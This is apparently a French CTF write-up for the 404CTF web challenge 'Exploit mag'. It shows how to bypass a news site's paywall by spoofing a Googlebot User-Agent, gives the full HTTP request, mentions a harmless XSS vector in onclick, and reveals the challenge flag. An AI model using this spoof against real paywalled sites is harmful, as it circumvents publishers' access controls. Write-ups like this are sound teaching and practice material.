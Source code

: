 # Exploit mag
## Enoncé
> Alors que la compétition bat son plein, votre entraîneur vient à votre rencontre :
>> Hey ! Je ne sais pas si tu as vu, mais il parait qu'un magazine en ligne a publié des trucs "intéressants" sur la compétition. C'est un ami à moi qui m'a envoyé le lien.
> En allant jeter un œil, rien ne semble différencier ce magazine d'un autre site sportif aux titres racoleurs... Mais l'un des articles attire votre attention. Ce serait bien de pouvoir y accéder, au moins pour savoir ce qu'ont appris les athlètes qui l'ont lu. Mais pas question de payer, il doit bien exister un autre moyen...

Auteur: **@Artamis**
 
Connexion: `https://exploit-mag.challenges.404ctf.fr`

## Analyse

On arrive sur un site de presse, où les articles sont disponibles entièrement uniquement au prix d'un abonnement.

Il y a deux liens qui pourraient nous intéresser: `https://exploit-mag.challenges.404ctf.fr/news/` et `https://exploit-mag.challenges.404ctf.fr/pricing/`.

Comme il n'y a pas création de compte, ou de cookies relié à notre connexion, il est intéressant de se demander comment le site effectue la vérification sur notre légitimité à voir ou non les articles. 

Il va peut être nous falloir implémenter un cookie à un moment ou à un autre.

### `/pricing`

<p align="center">
    <img src="../../_Platforms/images/404CTFWeb3.png" alt="img1" style="width:40%;">
</p>

Le seul moyen d'accéder aux articles serait d'être premium, mais en observant le code source de la page, on apprend que le bouton "C'est parti !" n'effectue aucune autre action que de nous rediriger vers la page `/news`. Nous avons aucun indice sur ce potentiel cookie de légitimité.

### `/news`

En arrivant sur un article quelconque on tombe sur cette barrière de paiement:

<p align="center">
    <img src="../../_Platforms/images/404CTFWeb4.png" alt="img1" style="width:40%;">
</p>

Seulement, lorsque l'on appuie sur le captcha résultat, rien ne se passe, il tourne en boucle.

Après analyse de son code source, les injections XSS sont possibles par la variable onclick, seulement elles ne mènent à rien.

Avec un peu plus d'observation on apprend par l'id d'un élément que ce genre de barrières s'appellent des paywalls.

Avec un peu de documentation sur internet, on apprend que certains sites laissent passer les bots crawlers de google pour obtenir un meilleur référencement, et il est possible d'usurper leur identité en utilisant leur User-Agent associé.

## Exploitation

L'article nous intéressant le plus est évidemment celui-ci `/dataleak-404-ctf`, mais nous aurions pu tous les faire;

On reproduit la requête d'obtention de l'article en changeant l'User-Agent par celui d'un Google Bot:
```http
GET /news/dataleak-404-ctf/ HTTP/1.1
Host: exploit-mag.challenges.404ctf.fr
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

Et on obtient directement l'article complet, et le flag 

Flag: **404CTF{p4yw4lL_bYpa55_1s_dAnG3r0us}**